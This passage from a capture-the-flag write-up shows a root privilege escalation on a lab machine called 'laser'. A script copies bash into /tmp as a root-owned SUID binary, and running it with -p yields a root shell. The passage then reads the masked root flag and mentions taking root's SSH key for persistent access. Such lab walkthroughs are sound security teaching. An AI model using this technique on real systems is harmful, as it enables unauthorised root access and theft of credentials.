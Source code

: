 This script will copy `bash` into `/tmp` as `0xdf`, make it owned by root and SUID.

Make it executable and not writable:

```

solr@laser:/tmp$ chmod +x clear.sh
solr@laser:/tmp$ chmod -w clear.sh
solr@laser:/tmp$ ls -l clear.sh
-r-xr-xr-x 1 solr solr 83 Sep 13 17:14 clear.sh

```

When the minute passes, `0xdf` is there:

```

solr@laser:/tmp$ ls -l 0xdf
-rwsrwxrwx 1 root root 1183448 Sep 13 17:16 0xdf

```

Running it gives a shell as root:

```

solr@laser:/tmp$ ./0xdf -p
0xdf-5.0# id
uid=114(solr) gid=120(solr) euid=0(root) groups=120(solr)

```

I can grab `root.txt`:

```

0xdf-5.0# cat /root/root.txt
a4a0a162************************

```

I can also grab the root `id_rsa` and use it over SSH for future root shell.